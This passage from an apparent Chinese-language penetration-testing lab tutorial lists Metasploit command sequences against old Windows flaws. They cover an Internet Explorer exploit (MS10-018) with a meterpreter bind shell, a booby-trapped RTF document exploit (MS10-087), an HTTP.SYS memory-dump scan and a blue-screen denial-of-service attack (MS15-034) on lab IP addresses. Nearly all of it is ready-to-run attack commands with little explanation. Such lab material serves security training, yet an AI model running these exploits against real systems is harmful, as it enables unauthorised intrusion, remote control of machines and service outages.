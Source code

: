 弹出提示 大概率版本问题 windows server 2003  网上的复现教程为xp

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQZfYqCcbw9hdiayClad3IIInCQSIiahcc9Zz1LakrlRXR7NrKhdYKJNOEQdNaGBqO02Kh8oxHFicjxicA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



## 浏览器攻击渗透（MS10-018）

```
search  ms10-018
use exploit/windows/browser/ms10_018_ie_behaviors
set srvhost 10.4.7.20
set payload windows/meterpreter/bind_tcp
exploit 
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQZfYqCcbw9hdiayClad3IIIn9Jmicxldtf8vPibLz8t2XAQHhwNfS6no2AEW1VI8At11mjrkcEV7LJZQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



应用软件格式渗透，利用word去渗透（MS10-087）

打开文档 让它弹出计算器

```
search MS10-087
use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
show options 
set filename ceshi.rtf
set payload windows/exec
set cmd calc.exe
exploit
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQZfYqCcbw9hdiayClad3IIInIFa2cLCHGBialHa97jVXKgicDiauGeNgr8ALnPkshN2ytN4O7avCdRLxA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



## CVE-2015-1635-HTTP.SYS远程执行代码漏洞（ms15-034）

读取内存数据

```
search ms15-034use
auxiliary/scanner/http/ms15_034_http_sys_memory_dump
set rhost 10.4.7.50
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQZfYqCcbw9hdiayClad3IIInyAK3EfRbJgYcqMQ7VhjFlQg02bYoADoiaibMAyibcdWeIabHUaK6KrSkg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

蓝屏攻击

```
use auxiliary/dos/http/ms15_034_ulonglongadd
set rhosts 10.4.7.22
set threads 10
run
```
